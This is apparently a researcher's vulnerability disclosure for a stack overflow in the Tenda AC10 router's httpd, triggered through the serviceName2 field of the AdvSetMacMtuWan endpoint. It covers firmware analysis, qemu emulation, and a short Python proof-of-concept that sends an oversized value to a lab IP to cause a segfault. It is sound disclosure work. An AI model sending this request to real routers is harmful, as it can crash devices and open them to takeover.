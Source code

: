 # Tenda-AC10-AdvSetMacMtuWan-serviceName2-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a  stack overflow vulnerability in the Tenda-AC10 router.

By analyzing the webs file in the bin directory, I found that the function 0x45C380 contains a stack overflow vulnerability.

The stack overflow can be triggered by the serviceName2 key value, which leads to a strcpy stack overflow.

![image-20250110175336927](https://gitee.com/xyqer/pic/raw/master/202501130936686.png)

It can be seen that there is a stack overflow in the above function. To call this part of the code, i in the following function needs to be greater than 0.

![image-20250110175310762](https://gitee.com/xyqer/pic/raw/master/202501130938861.png)

It can be seen whether it is triggered is related to v4, and v4 is wans.flag. However, in the case of qemu simulation, the value read from GetValue("wans.flag", v4); is always 0, although the following is the default setting. **But in the real environment, we can make the return value of GetValue("wans.flag", v4); greater than 0. In order to better carry out the attack, I have made the following processing.**

![image-20250110180323210](https://gitee.com/xyqer/pic/raw/master/202501130939237.png)

Thus we can successfully invoke the code where the vulnerability point is located to achieve stack overflow and control the program execution flow.

## How can we simulate a router

﻿Use the following command to simulate with firmAE.

```bash
sudo chroot ./ ./qemu-mipsel-static ./bin/httpd
```

﻿The content of the **poc.py** file is as follows:

```python
import requests
import pwn
url = "http://192.168.229.128/goform/AdvSetMacMtuWan"
data = {
        "serviceName2": "a"*0x300
}

res = requests.post(url,data=data)
print(res.text)
```

## Attack result

![image-20250110181113219](https://gitee.com/xyqer/pic/raw/master/202501101811258.png)

Through the above figure, the value can be obtained. Successfully, a stack overflow has been achieved and a segmentation fault has been triggered.